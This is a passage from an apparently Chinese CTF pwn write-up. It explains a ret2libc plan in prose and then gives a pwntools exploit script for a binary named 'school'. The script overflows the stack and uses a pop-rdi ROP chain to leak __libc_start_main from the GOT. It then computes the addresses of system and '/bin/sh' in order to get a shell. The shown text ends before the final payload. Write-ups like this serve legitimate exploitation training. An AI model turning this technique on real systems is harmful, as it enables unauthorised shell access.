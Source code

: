 #### 利用思路

可以通过溢出后构造伪栈调用puts函数泄露got表中函数真实地址，从而计算出libc的基地址，这时我们就可以计算出system函数与'/bin/sh'字符串的真实地址，再次通过溢出后构造伪栈调用system('/bin/sh')即可拿到shell。

#### exp

```python
from pwn import *
binary_file = './school'
context.binary = binary_file

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process([binary_file])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here

offset = 0x40 + 0x8
elf = ELF(binary_file)
libc = ELF('./libc-2.23.so')                            # 远程
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')           # 本地
puts_plt = elf.plt['puts']
libc_start_main_got = elf.got['__libc_start_main']
vuln = 0x00000000004006A9               # main
prdi = 0x0000000000400753               # pop rdi ; ret


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    payload = flat(['A' * offset, prdi, libc_start_main_got, puts_plt, vuln])
    io.recvuntil("Local Buffer >> ")
    io.sendline(payload)

    # 取17-25是为了去除Have a nice pwn!!字符串
    io.recvuntil("Have a nice pwn!!")               # 远程
    # libc_start_main_addr = u64(io.recv()[17:25])  # 本地
    libc_start_main_addr = u64(io.recv()[0:8])
    # 调试发现，这里取到的十六进制头尾各多了个0a，需要去除
    libc_start_main_addr = int('0x' + str(hex(libc_start_main_addr))[3:15], 16)
    print hex(libc_start_main_addr)

    libcbase = libc_start_main_addr - libc.symbols['__libc_start_main']
    system_addr = libcbase + libc.symbols['system']
    binsh_addr = libcbase + libc.search('/bin/sh').next()

    print hex(system_addr)
    print hex(binsh_addr)

```